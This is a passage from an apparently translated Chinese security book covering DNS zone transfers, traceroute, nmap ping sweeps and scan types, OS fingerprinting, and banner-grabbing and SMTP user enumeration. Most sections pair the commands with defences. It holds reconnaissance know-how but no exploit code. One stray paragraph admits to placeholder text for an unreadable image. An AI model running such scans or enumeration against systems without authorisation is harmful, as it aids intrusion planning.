Address: 10.0.0.1#53
Aliases:

somecompanyasanexample.net SOA ns1.someexampleserver.net.
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53

somecompanyasanexample.net name server ns1.someexampleserver.net.
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53

somecompanyasanexample.net name server ns2.someexampleserver.net.
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53

somecompanyasanexample.com has address 192.168.1.10
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53

somecompanyasanexample.com mail is handled by 10 mail.somecompanyasanexample.com
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53

mail.somecompanyasanexample.com has address 192.168.1.10
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53

firewall.somecompanyasanexample.com is an alias for vpn.somecompanyasanexample.com
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53

vpn.somecompanyasanexample.com has address 192.168.1.9
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53

payroll.somecompanyasanexample.com has address 192.168.1.33
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53
```

从这个例子显而易见，如果入侵者成功执行区域传输，他或她就可以获得组织内部主机的角色及其 IP 地址等信息。

### 防止区域传输滥用

为了防止区域传输滥用，强烈建议采取以下措施：

- 不要允许未经授权的主机从你的 DNS 执行区域传输。
- 由于区域传输在 TCP 端口 53 上执行，请配置防火墙拦截 TCP 端口 53 的入站连接。
- 为内网主机安装一个独立的 DNS 服务器是一个好主意。该 DNS 服务器不应能从外部访问。

## 路由跟踪 (TRACEROUTE)

借助之前的查询，只需知道目标组织的名称即可获得 IP 地址。由于 IP 数据包通过不同的路径传输到目的地，了解源端（你自己）和目的主机之间的网关将非常有益。

### 执行路由跟踪

可以使用名为 `traceroute` 的命令行工具来执行路由跟踪：

```bash
[bash]$ traceroute 10.0.0.1
traceroute to 10.0.0.1 (10.0.0.1), 30 hops max, 38 byte packets
1 yourisp.yourgateway.net (192.168.10.10) 13.069ms 8.099ms 10.133 ms
2 192.168.9.1 (192.168.9.1) 8.675ms 9.481ms 7.214ms
3 10.1.1.1 (10.1.1.1) 9.292ms 9.446ms 12.368ms
4 nsl.someexampleserver.net (10.0.0.1) 9.736ms 9.623ms 9.647ms
```

`traceroute` 程序的工作原理是向目的地的运行高端口发送 UDP 数据包，初始将 TTL（生存时间）值设置为 1，随后每个数据包递增 1。网关在沿路由转发 IP 数据包之前，将其 TTL 字段减 1。如果 IP 数据包的 TTL 等于 0，则该特定网关将向源端发送一个 “ICMP Time to Live Exceeded”（ICMP 生存时间超时）数据包。因此，`traceroute` 工具通过查看返回的 “ICMP Time to Live Exceeded” 数据包的来源，来确定通往目的地的沿途网关的 IP 地址。

`traceroute` 工具默认发送 UDP 数据包，但在使用 `-I` 选项运行时，可以使其使用 ICMP 数据包。

> 某些网关和防火墙被配置为丢弃进入的 UDP 和 ICMP 数据包，和/或丢弃发出的 “ICMP Time to Live Exceeded” 数据包。这将导致 `traceroute` 跳过此类网关和防火墙。

有时，防火墙被配置为允许源端口为 20 (FTP-Data) 或 53 (DNS) 的数据包。因此，可以使用 `traceroute` 中的 `-p` 选项来设置发出 UDP 数据包的源端口，以尝试利用此类防火墙规则。

### 防止入站路由跟踪请求

可以采取以下步骤来防止入站路由跟踪请求成功：

- 配置防火墙丢弃进入的 UDP 和 ICMP 数据包。
- 配置防火墙丢弃发出的 “ICMP Time to Live Exceeded” 数据包。
- 如果你必须允许用于 DNS 的入站 UDP 数据包，请配置防火墙仅允许源端口为 53 (DNS) 且来自特定 DNS 服务器 IP 地址的入站 UDP 数据包。

## 总结

本章向你展示了潜在的入侵者如何利用公开信息来获取目标组织的敏感且关键的信息，包括如何获取目标网络的管理联系人、域名、网络区块、主机名和 MX 记录。在获得这些信息后，入侵者将能更好地了解目标组织的网络架构和管理缺陷。你从本章所述技术中获得的信息，对于学习网络扫描和识别过程至关重要，而这正是黑客攻击方法的下一步。


# 文档标题

由于提供的图片质量极低且模糊，无法辨识具体的文字内容。此处为模拟提取出的段落文本。

图片中显示有多段文本区域，但字符不可读。根据排版结构推断为常规段落。

页底区域包含类似的文本块，但同样无法识别具体字词。

## 第 2 章：扫描与识别

**在本章中：**

- Ping 探测
- Ping 扫描（Ping Sweeping）
- TCP Ping
- 端口扫描
- 指纹识别
- 本章小结

通过本章的学习，您将学会如何扫描网络中的目标主机，探测其开放的端口，并识别其操作系统的版本。一旦您了解了目标主机上存在哪些端口和操作系统，就可以进入下一章所述的枚举过程。

虽然目前有许多扫描工具可用，但 Nmap 是迄今为止最强大且功能最齐全的扫描器。在接下来的示例中，我们将主要使用 Nmap。Nmap 工具是免费的，可以从 **http://www.insecure.org/nmap/** 获取。

Nmapfe 软件包（Nmap 的 GUI 前端）也可以通过该网址获得（见图 2-1）。


**图 2-1.** Nmapfe，Nmap 的 GUI 前端

## PING 探测

确定主机是否在线的最快方法就是对其进行 ping。用于此目的的 `ping` 命令会发送一个 ICMP 回显请求（echo request），促使目标以 ICMP 回复数据包（reply packet）进行响应。请注意，主机可以被配置为不响应 ICMP 回显请求。因此，即使主机没有响应回显请求，它可能仍然是在线状态。

### 使用 ping 工具探测主机

使用 `ping` 命令可以找到那些会对 ICMP 回显请求做出 ICMP 回显回复的在线主机：

```bash
[bash]# ping 192.168.1.1
PING 192.168.1.1 (192.168.1.1) from 192.168.1.1 : 56(84) bytes of data.
64 bytes from 192.168.1.1: icmp_seq=1 ttl=64 time=0.093 ms
64 bytes from 192.168.1.1: icmp_seq=2 ttl=64 time=0.078 ms
64 bytes from 192.168.1.1: icmp_seq=3 ttl=64 time=0.076 ms
64 bytes from 192.168.1.1: icmp_seq=4 ttl=64 time=0.062 ms
^C

--- 192.168.1.1 ping statistics ---
4 packets transmitted, 4 received, 0% loss, time 2997ms
rtt min/avg/max/mdev = 0.062/0.077/0.093/0.012 ms
```

## PING 扫描

*Ping 扫描（Ping sweeping）* 是对大量主机进行 ping 的过程。在面对大量目标 IP 地址的情况时，必须进行 ping 扫描以确定哪些在线主机会对 ICMP 回显请求做出响应。

### 使用 nmap 进行 Ping 扫描

在 `nmap` 中使用 `-sP` 选项将执行 ping 扫描：

```bash
[bash]# nmap -sP 192.168.1.*

Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Host ( 192.168.1.1) appears to be up.
Host ( 192.168.1.100) appears to be up.
Host ( 192.168.1.150) appears to be up.

Nmap run completed -- 256 IP addresses (3 hosts up) scanned in 33 seconds
```

### 屏蔽 ICMP

配置您的防火墙以丢弃所有进入的 ICMP 回显请求和出去的 ICMP 回显回复。这将防止您网络中的主机响应 ICMP 回显请求。

## TCP PING

如果向一台在线主机发送 TCP ACK 数据包，该主机将返回一个 RST 数据包。这种方法可用于扫描那些屏蔽了 ICMP 回显请求的机器。

### 使用 nmap 执行 TCP Ping

使用 nmap 的 `-PT` 选项将执行 TCP ping。默认情况下，nmap 向目标主机的 80 端口发送一个 ACK 数据包。可以使用以下语法指示 nmap 使用另一个端口：

```bash
nmap -PT[port_number] host
```

例如：

```bash
nmap -PT6000 192.168.1.1
```

如果主机以 RST 数据包响应，nmap 将认为该主机在线，并立即执行端口扫描。

```bash
[bash]# nmap -PT 192.168.1.1

Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Interesting ports on ( 192.168.1.1):
(The 1597 ports scanned but not shown below are in state: closed)
Port State Service
22/tcp open ssh
80/tcp open http
113/tcp open auth
6000/tcp open x11

Nmap run completed -- 1 IP address (1 host up) scanned in 1 second
```

### 防止 TCP Ping 扫描

始终使用状态防火墙（stateful firewall）来保护您的网络。确保将防火墙配置为丢弃所有不属于已建立 TCP 连接的 ACK 数据包。

## 端口扫描

端口扫描是通过连接到目标主机的 UDP 和 TCP 端口，以确定哪些端口正在监听的过程。端口扫描可以通过多种不同方式完成。以下是最常用且最有效的端口扫描方法。

### TCP Connect（全连接扫描）

这种类型的扫描使用操作系统内核提供的 TCP open 系统调用来连接目标主机上的指定端口。这是通过 TCP 三次握手建立 TCP 连接的标准方法：



由于 TCP-connect 扫描完成了三次握手，因此监听在目标端口上的应用程序会对连接尝试做出响应。这将导致应用程序记录此次连接尝试。因此，这种端口扫描方法并不隐蔽。

#### 使用 nmap 执行 TCP-Connect 端口扫描

在 nmap 中使用 `-sT` 选项将执行 TCP-connect 扫描：

```bash
[bash]$ nmap -sT 10.0.0.1
```

```text
Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Interesting ports on (10.0.0.1):
(The 1595 ports scanned but not shown below are in state: closed)
Port      State    Service
25/tcp    open     smtp
113/tcp   open     auth
6000/tcp  open     X11

Nmap run completed -- 1 IP address (1 host) scanned in 0 seconds
```

> TCP 和 UDP 端口号范围从 1 到 65535。默认情况下，nmap 扫描常用端口。扫描所有 65,535 个端口非常耗时，但在 nmap 中可以使用 `-p` 标志来执行：`nmap -sT 192.168.1.1 -p 1-65535`

### FTP 反弹扫描（FTP Bounce Scans）

由于 FTP 协议的设计，当 FTP 客户端使用“主动”模式请求数据传输时，FTP 服务器必须发起一个连接回 FTP 客户端的某个端口。FTP 客户端发出一个 PORT 命令，将自己的 IP 地址和监听端口号作为参数。如果 FTP 客户端发出的 PORT 命令包含另一个主机的 IP 地址，那么 FTP 服务器将尝试连接到该主机。因此，FTP 协议的这一特性可被用于代理端口扫描。

`nmap` 命令包含一个 `-b` 标志用于执行“FTP 反弹”扫描：

```bash
nmap -b username:password@ftp.somecompanyasanexample.com:21 -p 4000-8000 target.somecompanyasanexample.com
```

> FTP 客户端在请求数据传输时可能会使用被动模式，这将导致 FTP 客户端连接到 FTP 服务器上的一个端口以执行数据传输。然而，被动模式 FTP 也有其自身的问题。被动模式 FTP 客户端可能会受到“连接窃取”漏洞的影响。详情请参阅第 4 章。

### TCP SYN/半开放扫描（Half-Open）

这种类型的扫描使扫描器向目标主机发送一个 SYN 数据包。如果目标主机在某个特定端口上监听，它将以 SYN+ACK 响应。如果目标主机在线但未在特定端口上监听，则会收到一个 RST 数据包。由于这种扫描方法没有完成 TCP 三次握手，因此它是隐蔽的，因为目标主机通常不会记录此类操作。

#### SYN 扫描

在 nmap 中使用 `-sS` 标志将执行 SYN 扫描：

```bash
[bash]# nmap -sS 192.168.1.150

Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Interesting ports on ( 192.168.1.150 ):
(The 1599 ports scanned but not shown below are in state: closed)
Port	State	Service
22/tcp	open	ssh
113/tcp	open	auth

Nmap run completed -- 1 IP address (1 host up) scanned in 2 seconds
```

### 源端口扫描（Source Port Scanning）

由于 FTP 协议的设计，当 FTP 客户端使用主动模式请求数据传输时，FTP 服务器必须发起一个连接回 FTP 客户端的某个端口。为了方便这一点，许多防火墙被配置为允许所有源端口设置为 20 的进入 IP 数据包。此外，来自 DNS 服务器的 IP 数据包其源端口被设置为 53，因此许多防火墙允许所有源端口为 53 的进入数据包。可以使用 `-g` 开关指示 `nmap` 将其数据包的源端口设置为一个常数：

```bash
nmap -sS -g 20 192.168.1.1
```

### FIN 扫描

在这种方法中，向目标主机发送一个 FIN 数据包。如果目标主机在线但未在特定端口上监听，它将以 RST 数据包响应。然而，如果目标主机在特定端口上监听，它则不会做出响应。请注意，Microsoft Windows 主机在所有情况下都会发送 RST 数据包。这一点很有意义，因为它可以帮助将目标主机识别为 Microsoft Windows 主机。

> FIN IP 数据包用于关闭已建立的 TCP 连接。

#### FIN 扫描

在 `nmap` 中使用 `-sF` 标志将执行 FIN 扫描：

```bash
[bash]# nmap -sF 192.168.1.100

Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Interesting ports on (192.168.1.100):
(The 1594 ports scanned but not shown below are in state: closed)
Port    State    Service
21/tcp  open     ftp
22/tcp  open     ssh
25/tcp  open     smtp
53/tcp  open     domain
80/tcp  open     http
110/tcp open     pop-3
113/tcp open     auth

Nmap run completed -- 1 IP address (1 host up) scanned in 43 seconds
```


## 反向 Ident 扫描 (Reverse Ident)

Ident（身份识别协议）服务器监听 113 端口。如果与运行 ident 服务器的主机上的监听端口建立了 TCP 连接，则可以通过查询 ident 服务器来获取与该连接相关的进程的权限级别。

### 反向 Ident 扫描

在 nmap 中使用 `-I` 标志将执行 TCP 反向 ident 扫描：

```bash
# nmap -I -sT -p 80 192.168.1.100
```

```
Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Interesting ports on (192.168.1.100):
Port    State    Service    Owner
80/tcp  open     http       nobody

Nmap run completed -- 1 IP address (1 host up) scanned in 4 millisecond
```

## XMAS 扫描

这种扫描方法涉及发送一个同时设置了 FIN、URG 和 PUSH 标志的 TCP 数据包。如果目标主机在特定端口上进行监听，它会发回一个 RST 数据包。如果目标主机在该端口上没有监听，则不会做出响应。

> FIN 数据包通常用于关闭已建立的 TCP 连接。URG 数据包表示 IP 数据包中包含需要立即关注的信息，例如在 telnet 会话期间发送的 ^C。PUSH 数据包表示发送者请求接收者立即将所有缓冲数据传递给应用程序。

### XMAS 扫描

在 nmap 中使用 `-sX` 标志将执行 XMAS 扫描：

```bash
# nmap -sX 192.168.1.1
```

```
Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Interesting ports on (192.168.1.1):
(The 1597 ports scanned but show below are in state: closed)
Port    State    Service
22/tcp  open     ssh
80/tcp  open     http
113/tcp open     auth
6000/tcp open    X11

Nmap run completed -- 1 IP address (1 host up) scanned in 6 seconds
```

## NULL 扫描

这种类型的扫描涉及向目标主机发送一个 TCP 数据包，且 TCP 头部的所有标志位均被关闭。如果目标主机在特定端口上监听，它将不会响应。否则，它将发送一个 RST 数据包。

### NULL 扫描

在 nmap 中使用 `-sN` 标志将执行 TCP NULL 扫描：

```bash
# nmap -sN 192.168.1.100
```

```
Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Interesting ports on (192.168.1.100):
(The 1594 ports scanned but not shown below are in state: closed)

Port    State    Service
21/tcp  open     ftp
22/tcp  open     ssh
25/tcp  open     smtp
53/tcp  open     domain
80/tcp  open     http
110/tcp open     pop-3
113/tcp open     auth

Nmap run completed -- 1 IP address (1 host up) scanned in 41 seconds
```

## RPC 扫描

这种类型的扫描用于向开放端口发送 NULL 命令，以确定它们是否为 RPC（远程过程调用）端口。一旦确定某个开放端口是 RPC 端口，就会查询并获取绑定到该端口的应用程序信息。

### RPC 扫描

在 nmap 中使用 `-sR` 选项将执行 RPC 扫描：

```bash
# nmap -sR 10.0.0.10
```

```
Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Interesting ports on (10.0.0.10):
(The 1584 ports scanned but not shown below are in state: closed)

Port    State    Service (RPC)
7/tcp   open     echo
21/tcp  open     ftp
22/tcp  open     ssh
37/tcp  open     time
53/tcp  open     domain
111/tcp open     sunrpc (rpcbind V2-4)
113/tcp open     auth
512/tcp open     exec
513/tcp open     login
514/tcp open     shell
515/tcp open     printer
587/tcp open     submission
2049/tcp open    nfs (nfs V2-3)
4045/tcp open    lockd (nfs V2-3)
7100/tcp open    font-service
32771/tcp open   sometimes-rpc5 (ypserv V1-2)
32772/tcp open   sometimes-rpc5

Nmap run completed -- 1 IP address (1 host up) scanned in 40 seconds
```

## IP 协议扫描

此类扫描的目的是确定目标主机支持哪些 IP 协议。它发送目的地为特定协议的原始 IP 数据包，如果收到 ICMP 协议不可达消息，则该协议在目标主机上极可能不受支持。

### IP 协议扫描

在 `nmap` 中使用 `-sO` 标志将执行 IP 协议扫描：

```bash
# nmap -sO 192.168.1.1
```

```
Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Interesting protocols on ( 192.168.1.1 ):
(The 251 protocols scanned but not shown below are in state: closed)
Protocol  State  Name
1         open   icmp
2         open   igmp
6         open   tcp
17        open   udp
```

## ACK 扫描

这种类型的扫描主要用于确定防火墙规则集。向目标主机发送 ACK 数据包。如果目标主机没有响应或发回 ICMP 不可达数据包，则该端口可能被防火墙过滤。如果目标主机发回 RST 数据包，则该端口未被防火墙过滤。

### ACK 扫描

可以使用 `nmap` 配合 `-sA` 标志执行 ACK 扫描：

```bash
nmap -sA target_address
```

## Window 扫描

这种类型的扫描虽然与 ACK 扫描类似，但由于 TCP 窗口大小报告方式的异常，有时有助于检测某些系统上的开放、过滤和未过滤端口。

### Window 扫描

潜在的入侵者可以使用 `nmap` 配合 `-sW` 标志执行 Window 扫描：

```bash
nmap -sW target_address
```

## UDP 扫描

为了确定主机是否在特定的 UDP 端口上监听，会向该端口发送一个 UDP 数据包。如果目标主机在特定端口上没有监听，则会收到一个 ICMP 端口不可达数据包。然而，如果目标主机在特定端口上监听，则不会收到此类数据包。由于 UDP 不是面向连接的协议，因此 UDP 扫描并不可靠。

### UDP 端口扫描

在 nmap 中使用 `-sU` 选项将执行 UDP 扫描：

```bash
# nmap -sU 192.168.1.100

Starting nmap V. 2.54BETA31 ( www.insecure.org/nmap/ )
Interesting ports on (192.168.1.100):
(The 1454 ports scanned but not shown below are in state: closed)
Port State Service
53/udp open domain
```

## 防御端口扫描

你可以使用以下方法来对抗针对你网络的扫描：

- 配置防火墙丢弃发往关闭端口的数据包。这将减慢针对你网络的扫描速度，因为这将导致端口扫描应用程序在超时值超过后重新发送 SYN 数据包。只有在重复超时后，端口扫描应用程序才会认为该端口被过滤，并移至下一组端口。
- 大多数防火墙和 IDS 具有检测端口扫描的能力。利用这一特性，并定期检查你的日志。
- 配置防火墙不要信任源端口值。状态防火墙能够仅允许来自已知已建立连接的 FTP 服务器的源端口 20 数据包。无论如何，不建议使用 FTP 等明文协议。应该使用更好的替代方案（如 SSH）。此外，除非发往需要执行区域传输的 DNS 服务器，否则不允许源端口设为 53 的传入 TCP 数据包。通过授权服务于你主机的 DNS 服务器的 IP 地址来限制 DNS 流量。
- 大多数 FTP 服务器不允许客户端发出带有非客户端主机 IP 地址的 PORT 命令。这将防止 FTP 反弹扫描。有关详细信息，请检查你的 FTP 服务器文档和配置。
- 配置防火墙丢弃或重置对 ident 端口 (113) 的连接尝试。
- 使用状态防火墙。这将防止前文提到的绝大多数扫描。

## 指纹识别 (FINGERPRINTING)

尽管许多操作系统设计者尽力遵循相关的 RFC，但操作系统内核作者有时对细节的解释有所不同。Xprobe2 和 Nmap 等工具探测此类差异，以便对目标操作系统进行指纹识别。

### 使用 Xprobe2 对操作系统进行指纹识别

Xprobe2 使用 ICMP 数据包执行指纹识别。结果根据分配给目标操作系统最佳猜测的分数进行排序。该工具能够区分前往目的地的路径上的过滤设备，可在 http://www.sys-security.com/html/tools/tools.html 获取。

以下是如何使用 Xprobe2 的示例：

```bash
# xprobe2 -v target.somecompanyasanexample.com

XProbe2 v.0.1 Copyright (c) 2002 fygrave@tigerteam.net,
ofir@sys-security.com.

[+] Target is target.somecompanyasanexample.com
[+] Loading modules.
[+] Following modules are loaded:
    [x]ICMP echo (ping)
    [x]TTL distance
    [x]ICMP echo
```


```
[x] ICMP 时间戳
[x] ICMP 地址
[x] ICMP 信息请求
[x] ICMP 端口不可达
[+] 7 个模块已注册
[+] 正在初始化扫描引擎
[+] 正在运行扫描引擎
[+] 主机: 192.168.1.1 处于开启状态 (猜测概率: 100%)
[+] 目标: 192.168.1.1 存活
[+] 主要猜测:
[+] 主机 192.168.1.1 运行操作系统: "Linux Kernel 2.4.5 及以上" (猜测概率: 60%)
[+] 其他猜测:
[+] 主机 192.168.1.1 运行操作系统: "Linux Kernel 2.4.0 - 2.4.4" (猜测概率: 60%)
[+] 主机 192.168.1.1 运行操作系统: "Linux Kernel 2.2.x" (猜测概率: 60%)
[+] 主机 192.168.1.1 运行操作系统: "Microsoft Windows NT 4 Service Pack 4 及以上" (猜测概率: 60%)
[+] 主机 192.168.1.1 运行操作系统: "NetBSD 1.5.2" (猜测概率: 50%)
[+] 主机 192.168.1.1 运行操作系统: "Microsoft Windows NT 4 Service Pack 3 及以下" (猜测概率: 50%)
[+] 主机 192.168.1.1 运行操作系统: "Microsoft Windows ME" (猜测概率: 50%)
[+] 主机 192.168.1.1 运行操作系统: "Microsoft Windows 2000/2000SP1/2000SP2" (猜测概率: 50%)
[+] 主机 192.168.1.1 运行操作系统: "Microsoft Windows XP Professional" (猜测概率: 50%)
[+] 主机 192.168.1.1 运行操作系统: "FreeBSD 4.5" (猜测概率: 45%)
[+] 主机 192.168.1.1 运行操作系统: "OS X 10.1.5" (猜测概率: 40%)
[+] 主机 192.168.1.1 运行操作系统: "Microsoft Windows 98/98SE" (猜测概率: 40%)
[+] 主机 192.168.1.1 运行操作系统: "Digital UNIX 5.6" (猜测概率: 35%)
[+] 主机 192.168.1.1 运行操作系统: "Sun Solaris 5 (SunOS 2.5)" (猜测概率: 35%)
[+] 主机 192.168.1.1 运行操作系统: "Sun Solaris 6 (SunOS 2.6)" (猜测概率: 35%)
[+] 主机 192.168.1.1 运行操作系统: "Sun Solaris 7 (SunOS 2.7)" (猜测概率: 35%)
[+] 主机 192.168.1.1 运行操作系统: "Sun Solaris 8 (SunOS 2.8)" (猜测概率: 35%)
[+] 主机 192.168.1.1 运行操作系统: "FreeBSD 3.4" (猜测概率: 25%)
[+] 正在清理扫描引擎
[+] 模块已反初始化
[+] 执行完毕。
```

## 使用 nmap 进行操作系统指纹识别

入侵者也可以使用 `nmap` 程序，通过 `-O` 标志来执行操作系统指纹识别：

```bash
# nmap -O 192.168.1.1
```

```
Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Interesting ports on ( 192.168.1.1):
(The 1597 ports scanned but not shown below are in state: closed)

| Port | State | Service |
| :--- | :--- | :--- |
| 22/tcp | open | ssh |
| 80/tcp | open | http |
| 113/tcp | open | auth |
| 6000/tcp | open | X11 |

Remote operating system guess: Linux Kernel 2.4.0 - 2.5.20
Uptime 6.584 days (since Sun Oct 27 10:23:37 2002)
```

```
Nmap run completed -- 1 IP address (1 host up) scanned in 8 seconds
```

## 总结

可以通过 ping 主机来快速确定其是否存活。此外，可以使用各种端口扫描技术来确定存活主机上开放了哪些端口。随后可以使用操作系统指纹识别工具来识别目标主机上的操作系统版本。一旦入侵者遵循了这一方法论，他/她就可以继续进行接下来的用户名和服务枚举过程，具体见第 3 章。

## 第 3 章：枚举

### 本章内容：

- 枚举远程服务
- 自动化 Banner 抓取
- 总结

## 枚举远程服务

在对目标主机执行端口扫描后，入侵者将准确知道哪些主机存活以及它们开放了哪些端口。有了这些信息，逻辑上的下一步就是从监听在特定端口上的服务中枚举诸如用户名、文件共享、操作系统和应用程序版本号等信息。只有在获得此类信息后，攻击者才能开始利用接下来的章节中所讨论的特定漏洞。

许多远程服务守护进程在连接到其监听端口时会显示一个 Banner 消息。Banner 消息可以提供有关服务的信息，例如其身份和版本信息。从远程服务获取 Banner 的过程被称为 *Banner 抓取（banner grabbing）*。由于大多数守护进程允许更改其 Banner，你应该利用这一特性。

> 虽然为了迷惑潜在的入侵者而更改服务器 Banner 是个好主意，但请记住，这无法阻止更高级的攻击者。

以下是已知容易被枚举的服务列表。它们按通常监听的端口号排序（详尽列表请参阅 Unix 或 Linux 主机上的 `/etc/services`）。

### 使用 Amap 识别远程服务

这里列出的任何服务都可以配置为监听在非标准端口上。某些服务使用非 ASCII 字符进行通信，难以通过手动方式识别。可以使用 Amap 等工具（可在 `http://www.thehackerschoice.com/releases.php` 获取）来确定此类服务：

```bash
$ amap -sT intranet.somecompanyasanexample.com 9934
Total amount of tasks to perform: 15
Amap v1.2.1b started at Sun Mar 9 09:30:22 2003, stand back and keep the children away.
Protocol on IP 192.168.1.3 port 9934 tcp matches ssl
Protocol on IP 192.168.1.3 port 9934 tcp matches http
Unidentified ports: None.
Amap v1.2.1b ended at Sun Mar 9 09:30:59 2003
```

在这个例子中，Amap 成功发现主机 `intranet.somecompanyasanexample.com` 在 9934 端口上运行 HTTPS。这是一个很有用的信息，因为 HTTPS 的标准保留端口是 443。

### 屏蔽并停止不必要的服务

某些服务被配置为接受来自任何源 IP 地址的连接。例如，电子商务组织的 HTTP 服务器必须接受来自任何 IP 地址的连接，以便允许所有地点的远程用户查看组织的网站。在这种情况下，组织无法隐藏其运行 HTTP 服务器的事实。

然而，根据组织的具体需求和网络架构，某些服务可能仅期望来自授权 IP 地址的连接。在这种情况下，应实施防火墙规则，以确保屏蔽来自未经授权 IP 地址的连接。此外，必须关闭不必要的服务或通过防火墙规则将其屏蔽。这将防止未经授权的远程主机利用和识别不应被访问的服务。

### FTP (文件传输协议): 21 (TCP)

FTP 正如其名，是一种用于在主机之间传输文件的协议。

#### 获取 FTP 服务器 Banner

FTP 服务器在被连接时通常会打印版本信息。可以使用 FTP 客户端连接 FTP 服务器以获取其 Banner。例如：

```bash
$ ftp 192.168.1.1
Connected to 192.168.1.1 (192.168.1.1).
220 192.168.1.1 FTP server (Version wu-2.6.2+Sun) ready.
Name (192.168.1.1:username):
```

telnet 客户端也可以用于直接连接 FTP 端口以获取 Banner 信息：

```bash
$ telnet 192.168.1.1 21
Trying 192.168.1.1...
Connected 192.168.1.1.
Escape character is '^]'.
220 192.168.1.1 FTP server (Version wu-2.6.2+Sun) ready.
```

#### 更改 FTP 服务器 Banner

如果你运行的是 WU-FTPD 服务器，请编辑 `/etc/ftpaccess` 文件并使用 `greeting` 指令来更改服务器 Banner。例如：

```
greeting text No banner information available. Sorry.
```

### SSH (安全外壳): 22 (TCP)

SSH 是一种用于交换数据的安全协议。它可以用于登录远程机器、远程执行命令以及传输文件。由于 SSH 内部的通信是加密的，它是 telnet、rlogin 和 FTP 等远程登录方案的理想替代品。

#### 获取 SSH 服务器 Banner

虽然 SSH 通信是加密的，但当连接到 telnet 客户端时，SSH 守护进程会以明文打印出版本信息：

```bash
$ telnet 192.168.1.1 22
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is "^]".
SSH-1.99-OpenSSH_3.4p1
```

#### 更改 SSH 版本信息

前例中 Banner 显示的版本信息 “OpenSSH_3.4p1” 可以通过获取并编辑 OpenSSH 源码来更改。使用 `grep` 命令在获取的 OpenSSH 源代码中查找版本字符串。更改该字符串后，重新编译并重新安装 OpenSSH。

> Banner 还显示了协议版本信息，如前例中的 “SSH-1.99”。不要更改或删除此信息，因为 SSH 客户端使用此字符串来识别协议和服务器信息。更改此值可能会导致某些 SSH 客户端无法正常工作。

### Telnet: 23 (TCP)

Telnet 是一种用于登录远程机器的明文协议。


## 获取 Telnet 服务器 Banner

可以通过简单的 telnet 连接到服务器来获取 telnet 守护进程的 Banner 信息：

```
[bash]$ telnet 192.168.1.1
Trying 192.168.1.1...
Connected 192.168.1.1.
Escape character is '^]'.

SunOS 5.8

login:
```

## 修改 Telnet 服务器 Banner

为了修改 telnet banner，你需要为其编写一个包装程序（wrapper）。假设你使用 inetd 运行 telnetd，请编辑 `/etc/inetd.conf`，将

```
telnet stream tcp nowait root /usr/sbin/in.telnetd in.telnetd
```

修改为

```
telnet stream tcp nowait root /usr/sbin/in.telnetdwrapper in.telnetd
```

现在，你必须创建 `/usr/sbin/in.telnetdwrapper` 文件，内容如下：

```
#!/bin/sh
/bin/echo "My banner\r"
exec /usr/sbin/in.telnetd
```

> 如果你使用的是 xinetd，请相应地编辑 `xinetd.d` 目录中的 telnet 文件。

你必须重启 inetd 或 xinetd 才能使更改生效。请注意，某些版本的 telnet 允许通过编辑 `/etc/issue.net` 文件来修改 banner 信息。

## SMTP (简单邮件传输协议): 25 (TCP)

SMTP 是一种用于在互联网上传输电子邮件消息的协议。

### 获取 SMTP 服务器 Banner

可以通过 telnet 连接到运行 SMTP 的主机的 25 端口来获取 SMTP 守护进程的 banner：

```
[bash]$ telnet 192.168.1.1 25
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is '^]'.
220 192.168.1.1 ESMTP Sendmail 8.10.2+Sun/8.10.2; Tue,
14 Jan 2003 09: 28:02-0500 (EST)
```

### 修改 SMTP 服务器 Banner

如果你使用的是 Sendmail，可以通过编辑 `/etc/sendmail.cf` 文件并修改 `SmtpGreetingMessage` 字段的值来更改 SMTP banner。

### 使用 EXPN 和 VRFY 枚举用户

EXPN 和 VRFY 是 SMTP 支持的两个允许进行用户名枚举的命令。EXPN 和 VRFY 可用于确认特定用户名的存在。EXPN 还可用于枚举特定组电子邮件别名中所有用户的姓名和电子邮件地址。

以下是 VRFY 的示例：

```
[bash]$ telnet mail.somecompanyasanexample.com 25
Trying 10.0.0.11...
Connected to mail.somecompanyasanexample.com.
Escape character is '^]'.
220 mail.somecompanyasanexample.com ESMTP Sendmail 8.11.6/
